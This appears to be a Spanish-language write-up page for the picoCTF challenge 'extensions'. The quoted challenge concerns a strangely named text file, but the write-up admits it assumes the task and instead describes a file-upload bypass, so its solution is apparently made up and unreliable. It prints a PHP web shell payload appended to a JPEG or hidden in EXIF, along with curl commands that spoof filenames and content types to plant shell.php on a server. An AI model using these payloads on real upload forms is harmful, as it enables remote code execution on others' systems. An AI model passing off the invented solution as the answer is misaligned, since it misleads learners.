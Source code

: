 #### Description

This is a really weird text file [TXT](https://jupiter.challenges.picoctf.org/static/e7e5d188621ee705ceeb0452525412ef/flag.txt)? Can you find the flag?
### 🧩 Reto: extensions

**Descripción:**  
(Asumido) Reto sobre extensiones de archivo / bypass por extensiones: la aplicación restringe uploads por extensión, o debes identificar archivos con extensiones engañosas (double extension, content-type mismatch, polyglots). Recuperar la flag explotando esa validación.

---

### **Solución** _(relajada y directa — técnicas rápidas)_

1. Recon: ver cómo valida la extensión (respuesta del servidor / código cliente):
    

`# subir una imagen normal y analizar respuesta curl -i -F "file=@id.jpg" https://HOST/upload # subir con filename forzado curl -i -F "file=@id.jpg;filename=shell.php" https://HOST/upload`

2. Pruebas de bypass comunes:
    

- **Doble extensión:** `shell.php.jpg`, `file.jpg.php`
    
- **Filename spoofing en multipart:** `-F "file=@img.jpg;filename=shell.php;type=image/jpeg"`
    
- **Content-Type falsificado:** `-H "Content-Type: image/jpeg"` al subir un PHP real
    
- **Polyglot (imagen + payload appended):**
    

`# append PHP after EOF de JPG cp img.jpg exploit.jpg printf '<?php system($_GET["c"]); ?>' >> exploit.jpg curl -i -F "file=@exploit.jpg;filename=shell.php;type=image/jpeg" https://HOST/upload`

3. Si el servidor renombra por hash pero conserva extensión, intenta `shell.jpg` con payload y prueba acceder a `/uploads/<hash>.php` y `/uploads/<hash>.jpg` (ambas rutas).
    
4. Si el server re-encodea imágenes (GD/ImageMagick), appended payload suele eliminarse → prueba EXIF payload:
    

`exiftool -Comment='<?php system($_GET["c"]); ?>' img.jpg curl -i -F "file=@img.jpg;filename=shell.php;type=image/jpeg" https://HOST/upload`

5. Si la app valida MIME con `finfo`, intenta construir headers y polyglots; si valida con `getimagesize()` muchas veces cabezas JPEG mínimas bastan.
    

---

### **Notas adicionales**

- Suele funcionar: `filename=shell.php` en el multipart (si el servidor confía en esa parte).
    
- Si el servidor re-encodea, busca otros endpoints (preview, tmp) que no re-encodeen.
    
- Revisa si la app acepta `.zip` y extrae su contenido → subir zip con `shell.php` dentro puede explotar.
    
- Usa Burp para inspeccionar el multipart exacto y probar variantes sin volver a subir el archivo desde disco.
    

---

### **Referencias**

- PayloadsAllTheThings — File upload bypass.
    
- `exiftool`, Burp Repeater (multipart editing), `zip`/`unzip`.
